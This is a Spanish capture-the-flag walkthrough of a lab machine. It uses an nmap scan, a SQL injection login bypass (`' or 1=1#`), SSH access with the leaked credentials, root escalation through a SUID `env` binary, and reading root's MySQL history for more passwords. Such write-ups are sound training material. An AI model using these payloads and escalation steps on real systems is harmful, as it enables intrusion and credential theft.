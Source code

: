 # Herramientas
- Nmap
- GTFOBins

# 1. Escaneo
Se hace un escaneo con nmap en todos los puertos de la IP y se encuentra esto:
 ```bash
 nmap -p- 172.17.0.3                                                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:19 -04  
Nmap scan report for 172.17.0.3  
Host is up (0.0000020s latency).  
Not shown: 65533 closed tcp ports (reset)  
PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  
MAC Address: 42:58:C9:17:41:E7 (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
 ```

Nos metemos a la página ingresando la IP en el navegador y nos encontramos con un apartado para ingresar las credenciales. Probamos una inyección SQL sencilla `' or 1=1--`, pero no funciona, así que probamos con una variación de este comando `' or 1=1#` y cualquier contraseña.
![[Pasted image 20250714102324.png]]

Al ingresar las credenciales, nos muestra esto:
![[Pasted image 20250714102352.png]]

Tenemos el usuario y la contraseña, por lo que procedemos a probar con el SSH usando estas credenciales.
```bash
ssh dylan@172.17.0.3                     
The authenticity of host '172.17.0.3 (172.17.0.3)' can't be established.  
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.  
This key is not known by any other names.  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '172.17.0.3' (ED25519) to the list of known hosts.  
dylan@172.17.0.3's password:    
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.12.33+kali-amd64 x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/pro  
  
This system has been minimized by removing packages and content that are  
not required on a system that users do not log into.  
  
To restore this content, you can run the 'unminimize' command.  
  
The programs included with the Ubuntu system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by  
applicable law.  
  
dylan@455005d6ecad:~$
```

Como podemos ver, logramos acceder a la máquina. Ahora podemos hacer un escalado de privilegios buscando binarios con permisos SUID.
```bash
find / -perm -4000 -user root 2>/dev/null  
/usr/bin/newgrp  
/usr/bin/env  
/usr/bin/mount  
/usr/bin/su  
/usr/bin/chsh  
/usr/bin/chfn  
/usr/bin/umount  
/usr/bin/gpasswd  
/usr/bin/passwd  
/usr/lib/openssh/ssh-keysign  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

En la página https://gtfobins.github.io/gtfobins/env/ podemos ver que podemos probar con:

```bash
env /bin/sh
```

Pero esto lo debemos adaptar a nuestro entorno, por lo que el comando quedaría así:
```bash
/usr/bin/env /bin/bash -p

whoami
root
```

Finalmente, nos aseguramos de que somos root con el comado `whoami`.

Podemos dirigirnos al historial de mysql de root de esta forma:
```
cd ../../root
cat .mysql_history

_HiStOrY_V2_  
ALTER\040USER\040'root'@'localhost'\040IDENTIFYED\040BY\040'paso';  
ALTER\040USER\040'root'@'localhost'\040IDENTIFIED\040BY\040'paso';  
FLUSH\040PRIVILEGES;  
CREATE\040DATABASE\040register;  
use\040register;  
CREATE\040TABLE\040users\040(username\040VARCHAR(30)\040PRIMARY\040KEY,\040passwd\040VARCHAR(30))  
;  
insert\040users\040(username,passwd)\040VALUES\040('mario','mario');\040  
use\040register;  
show\040tables  
;  
select\040*\040from\040users;  
show\040databases;  
use\040register;  
show\040tables;  
select\040*\040from\040users;  
show\040databases  
;  
use\040register;  
show\040tables;  
select\040*\040from\040users;  
UPDATE\040nombre_de_tabla\040SET\040username\040=\040'dylan',\040passwd\040=\040'KJSDFG789FGSDF78'\040WHERE\04  
0username\040=\040'mario'\040AND\040passwd\040=\040'mario';  
UPDATE\040users\040SET\040username\040=\040'dylan',\040passwd\040=\040'KJSDFG789FGSDF78'\040WHERE\040username\  
040=\040'mario'\040AND\040passwd\040=\040'mario';  
select\040*\040from\040users;
```

Aquí podemos encontrar una credencial más que es de mario con contraseña mario. Como no hay un puerto 3306 abierto, consideramos terminada la máquina.